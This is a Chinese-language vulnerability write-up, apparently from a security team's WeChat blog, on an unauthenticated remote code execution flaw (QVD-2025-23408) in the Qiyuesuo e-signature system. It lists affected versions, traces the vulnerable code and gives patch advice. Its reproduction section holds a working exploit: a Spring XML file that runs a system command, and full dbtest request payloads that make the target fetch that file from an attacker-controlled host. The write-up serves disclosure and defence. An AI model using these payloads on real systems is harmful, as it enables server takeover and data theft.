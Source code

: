 #  QVD-2025-23408：契约锁电子签章系统未授权RCE漏洞  
 实战安全研究   2025-07-06 15:47  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！  
  
作者：Howell@Timeline Sec   
  
本文字数：2480  
  
阅读时长：2～3mins   
  
声明：仅供学习参考使用，请勿用作违法用途，否则后果自负   
  
  
## 0x01 简介  
  
契约锁是上海亘岩网络科技有限公司打造的电子签约及印章管理平台，联合权威机构提供数字身份、电子签章、印章管控及数据存证服务，助力企业数字化转型。其电子文件具备法律效力，支持多种签署方式，可集成业务系统，满足多行业需求。  
## 0x02 漏洞概述  
  
**漏洞编号：QVD-2025-23408**  
  
这是一个严重的远程代码执行漏洞，该漏洞源于管理控制台存在未授权 JDBC 注入漏洞，攻击者无需身份认证，通过构造恶意数据库连接参数，在 dbtest  
 接口触发远程代码执行，这可能导致服务器被完全控制、数据泄露或业务系统沦陷。  
## 0x03 利用条件  
  
1）影响版本  
  
4.3.8 <= 契约锁 <= 5.3.* && 补丁版本 < 2.1.5  
  
4.0.* <= 契约锁 <= 4.3.7 && 补丁版本 < 1.3.5  
  
2）所需权限：无  
## 0x04 漏洞复现  
  
访问/setup/dbtest或/api/setup/dbtest  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlBbSlFjvuUedq4dq3g2mibbckwPAphrcAx34ubpwxlSkb9LW9DjNvlsIw/640?wx_fmt=png&from=appmsg "")  
  
对POSTGRESQL数据库进行利用  
  
新建1.xml文件，内容如下，放至自己的VPS上  
```
<beans xmlns="http://www.springframework.org/schema/beans"       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"       xmlns:p="http://www.springframework.org/schema/p"       xsi:schemaLocation="http://www.springframework.org/schema/beans        http://www.springframework.org/schema/beans/spring-beans.xsd">   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">        <constructor-arg>          <list>            <value>cmd</value>            <value>/c</value>            <value>calc</value>          </list>        </constructor-arg>    </bean></beans>
```  
  
执行payload：/setup/dbtest?db=POSTGRESQL&host=localhost&port=5321&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2F100.XX.XXX.85:8099%2F1%2Exml  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlB2GoesJlpFD9FJ5lngPPeqzhxTROjibjuGDQEdjsZukdXt02GoZ7LkDg/640?wx_fmt=png&from=appmsg "")  
  
目标主机上弹出计算器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlBznFGGUXHvEwylOpaRDmC9nvKSavvr8sJmvuOZBuLsqvQ5pK5sCOITQ/640?wx_fmt=png&from=appmsg "")  
  
mysql数据库payload：/setup/dbtest?db=MYSQL&host=localhost&port=3306&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml  
  
注意：是否存在/api/路径需根据实际情况判断，如存在，payload前需添加/api/  
## 0x05 漏洞分析  
  
com.qiyuesuo.config.ConsoleConfiguration  
 这个类有定义前台不需要鉴权的接口，其中就包含了此次漏洞的接口 /setup/dbtest  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlB0ic4dMJbGKpAciawHGWaZOFjs61nzakqUQG7icnxHZRvGy2GnfQkBicZmw/640?wx_fmt=png&from=appmsg "")  
  
问题的入口点 com.qiyuesuo.setup.SetupController#dbtest  
 在代码中请求了几个参数 host、port、name、username，接着我们追踪 validateDatabase  
 方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlBTSlmmZ6v0mZJ3syGrEKgecyfiaXJzibeg1Rj8200eCPLawyyTV7rD6TA/640?wx_fmt=png&from=appmsg "")  
  
在 com.qiyuesuo.setup.SetupService#validateDatabase  
 方法中调用 dbset  
 方法建立数据库连接，接着追踪 dbtest  
 方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlBLHA9zMcDls1AxYmicibaLcbbC2fr8rialCFDEia3rppXtLic1LI5SZrKickA/640?wx_fmt=png&from=appmsg "")  
  
在 com.qiyuesuo.setup.SetupService#dbtest  
 方法中可以看到，方法从 databaseService  
 获取数据库连接然后检查连接是否非空且有效等等，然后追踪 databaseService.getConnection  
 方法直接就是 jdbc 反序列化调用了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshibCpIMoJxLZB2UNXA6yYlBo7UXbJ6ODOGq5J7NJY0LwVX7EGicIwd9QKRRF6vmzy5TANyH4huUuVA/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
1、**缓解措施**  
：避免将该系统管理端HTTP服务直接暴露在互联网。  
  
2、**修复建议**  
：目前，官方已发布修复建议，建议受影响的用户尽快升级至安全版本。  
  
官方补丁下载地址：  
  
https://www.qiyuesuo.com/more/security/servicepack  
## 参考链接  
  
https://mp.weixin.qq.com/s/gmfx97xH4OHtGSJ0UmgOKA https://mp.weixin.qq.com/s/mRu0RCM4hDx0EwEWwwyLcQ https://blog.csdn.net/baidu_25299117/article/details/139990814  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群  
  
回复  
【SRC群】  
进入SRC-QQ交流群  
  
回复  
【新人】  
领取新人学习指南资料  
  
回复  
【面试】  
获取渗透测试常见面试题  
  
回复  
【手册】  
获取原创技术PDF手册  
  
回复  
【合作】  
获取各类安全项目合作方式  
  
回复  
【帮会】  
付费加入SRC知识库学习  
  
回复  
【  
培训】  
获取TimelineSec创办的实战课程  
  
  
视频号：搜索TimelineSec，[官方微博]()  
  
  
团队官网：  
http://www.timelinesec.com  
  
B站：  
https://space.bilibili.com/524591903  
  
  
  
❤  
  
觉得有用就点个赞吧！  
  
欢迎评论区留言讨论～  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
